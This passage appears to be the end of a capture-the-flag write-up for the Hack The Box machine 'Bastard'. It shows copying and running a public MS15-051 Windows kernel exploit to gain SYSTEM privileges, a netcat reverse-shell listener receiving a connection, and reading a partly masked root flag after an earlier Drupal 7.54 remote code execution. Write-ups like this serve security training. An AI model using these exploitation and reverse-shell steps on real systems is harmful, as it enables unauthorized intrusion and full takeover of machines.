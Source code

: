 ```bash
luc@kali:~/HTB/Bastard$ cp /opt/windows-kernel-exploits/MS15-051/MS15-051-KB3045171.zip .
luc@kali:~/HTB/Bastard$ unzip MS15-051-KB3045171.zip
...
  inflating: MS15-051-KB3045171/ms15-051x64.exe  
...
luc@kali:~/HTB/Bastard$ cp MS15-051-KB3045171/ms15-051x64.exe .
```

```bash
PS Z:\> .\ms15-051x64.exe whoami
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2712 created.
==============================
nt authority\system
```

```bash
luc@kali:~/HTB/Bastard$ sudo nc -lnvp 444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::444
Ncat: Listening on 0.0.0.0:444
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:61116.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

Z:\>whoami
The current directory is invalid.

Z:\>C:

C:\inetpub\drupal-7.54>whoami
nt authority\system

C:\inetpub\drupal-7.54>cd \Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
The system cannot find the file specified.

C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of C:\Users\Administrator\Desktop

19/03/2017  08:33     <DIR>          .
19/03/2017  08:33     <DIR>          ..
19/03/2017  08:34                 32 root.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  30.788.993.024 bytes free

C:\Users\Administrator\Desktop>type root.txt.txt
4bf12b96************************
```

## TL;DR

- RCE in Drupal 7.54 results in a reverse shell
- System is vulnerable to MS15-051
